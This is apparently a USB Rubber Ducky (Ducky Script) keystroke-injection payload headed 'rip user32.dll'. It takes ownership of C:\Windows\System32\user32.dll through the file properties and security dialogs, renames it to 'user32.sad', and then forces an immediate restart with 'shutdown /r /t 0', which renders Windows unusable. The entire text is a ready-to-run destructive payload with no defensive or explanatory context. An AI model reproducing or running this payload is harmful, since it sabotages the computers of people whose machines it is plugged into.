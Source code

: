     REM rip user32.dll
    DELAY 5000
    GUI r
    DELAY 700
    STRING C:\Windows\System32\
    DELAY 700
    ENTER
    DELAY 750
    STRING user
    DELAY 700
    ALT ENTER
    DELAY 700
    TAB
    DELAY 700
    TAB
    DELAY 700
    TAB
    DELAY 700
    TAB
    DELAY 700
    TAB
    DELAY 700
    RIGHTARROW
    DELAY 700
    RIGHTARROW
    DELAY 700
    ALT v
    DELAY 700
    ALT c
    DELAY 750
    ALT f
    DELAY 700
    CONTROL c
    DELAY 700
    ALT e
    DELAY 700
    CONTROL v
    DELAY 700
    STRING \Users
    DELAY 700
    ENTER
    DELAY 700
    ALT a
    DELAY 700
    ENTER
    DELAY 700
    ENTER
    DELAY 700
    ENTER
    DELAY 700
    ALT ENTER
    DELAY 700
    TAB
    DELAY 700
    TAB
    DELAY 700
    TAB
    DELAY 700
    TAB
    DELAY 700
    TAB
    DELAY 700
    RIGHTARROW
    DELAY 700
    RIGHTARROW
    DELAY 700
    ALT e
    DELAY 700
    DOWNARROW
    DELAY 700
    DOWNARROW
    DELAY 700
    DOWNARROW
    DELAY 700
    DOWNARROW
    DELAY 700
    ALT p
    DELAY 700
    SPACE
    DELAY 700
    ALT a
    DELAY 700
    ALT y
    DELAY 700
    ENTER
    DELAY 700
    ENTER
    DELAY 800
    ALT ENTER
    DELAY 700
    TAB
    DELAY 700
    TAB
    DELAY 700
    TAB
    DELAY 700
    TAB
    DELAY 700
    TAB
    DELAY 700
    TAB
    DELAY 700
    STRING user32.sad
    DELAY 700
    ENTER
    DELAY 800
    ALT c
    DELAY 750
    LEFTARROW
    DELAY 700
    ENTER
    DELAY 750 
    GUI r
    DELAY 700
    STRING cmd
    DELAY 700
    ENTER
    DELAY 750
    STRING shutdown /r /t 0
    DELAY 700
    ENTER